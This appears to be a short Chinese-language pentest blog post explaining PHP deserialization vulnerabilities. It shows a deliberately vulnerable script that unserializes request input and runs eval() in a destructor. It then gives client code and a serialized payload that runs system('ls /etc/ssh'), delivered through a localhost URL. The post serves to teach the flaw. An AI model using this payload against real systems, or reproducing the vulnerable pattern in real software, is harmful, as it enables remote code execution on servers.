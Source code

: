+++
date = "2016-07-25T23:32:52+08:00"
description = ""
draft = false
tags = ["反序列化"]
title = "PHP反序列化漏洞"
topics = ["Pentest"]

+++

### 0x00 关于反序列化漏洞
序列化：使用函数serialize()可将实例序列化为字符串  
反序列化：使用函数unserialize()可将序列化的字符串还原  

* 服务端有test.php，代码如下

```php
<?php
    class fun{
        public $msg;
        function __construct(){
            echo '__construct';
        }
        function __destruct() {
            eval($this->msg);
        }
    }

    $d = $_REQUEST['str'];
    var_dump($d);
    echo "<br />";
    $tc = unserialize($d);
    var_dump($tc);
?>
```

* 客户端可构造如下代码生成序列化后的字符串

```php
<?php
    class fun{
        public $msg;
        function __construct(){
            echo '__construct';
        }
        function __destruct() {
            eval($this->msg);
        }
    }

    $f = new fun();
    $f->msg = "system('ls /etc/ssh');";
    echo serialize($f);
?>
```

生成的序列化字符串为：O:3:"fun":1:{s:3:"msg";s:22:"system('ls /etc/ssh');";}

* 提交序列化字符串给服务端从而执行命令

访问```http://127.0.0.1/test.php?str=O:3:"fun":1:{s:3:"msg";s:22:"system('ls /etc/ssh');";}```即可得到/etc/ssh下的文件
